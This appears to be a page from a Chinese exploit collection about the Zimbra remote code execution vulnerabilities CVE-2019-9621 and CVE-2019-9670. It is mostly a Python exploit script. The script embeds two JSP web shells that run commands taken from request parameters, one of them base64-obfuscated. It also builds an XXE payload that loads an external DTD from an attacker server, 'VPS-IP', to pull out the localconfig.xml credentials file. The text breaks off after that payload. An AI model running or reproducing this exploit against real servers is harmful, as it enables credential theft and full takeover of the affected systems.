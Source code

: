 ![4.png](./resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId38.png)

    #coding=utf8
    import requests
    import sys
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    base_url=sys.argv[1]
    base_url=base_url.rstrip("/")
    #利用request模块来发包和接受数据，sys模块用来传参，并删除最右侧的/斜杠

    filename = "sunian.jsp"
    fileContent = r'<%if("023".equals(request.getParameter("pwd"))){java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>'
    #fileContent = r'<%@page import="java.io.*"%><%@page import="sun.misc.BASE64Decoder"%><%try {String cmd = request.getParameter("tom");String path=application.getRealPath(request.getRequestURI());String dir="weblogic";if(cmd.equals("NzU1Ng")){out.print("[S]"+dir+"[E]");}byte[] binary = BASE64Decoder.class.newInstance().decodeBuffer(cmd);String xxcmd = new String(binary);Process child = Runtime.getRuntime().exec(xxcmd);InputStream in = child.getInputStream();out.print("->|");int c;while ((c = in.read()) != -1) {out.print((char)c);}in.close();out.print("|<-");try {child.waitFor();} catch (InterruptedException e) {e.printStackTrace();}} catch (IOException e) {System.err.println(e);}%>'
    #可使用第11行bypass
    print(base_url)
    #请自己在公网放置dtd文件
    dtd_url="http://VPS-IP/exp.dtd"
    """
    <!ENTITY % file SYSTEM "file:../conf/localconfig.xml">
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % end "]]>">
    <!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
    """
    xxe_data = r"""<!DOCTYPE Autodiscover [
            <!ENTITY % dtd SYSTEM "{dtd}">
            %dtd;
            %all;
            ]>
    <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
        <Request>
            <EMailAddress>aaaaa</EMailAddress>
            <AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>
        </Request>
    </Autodiscover>""".format(dtd=dtd_url)
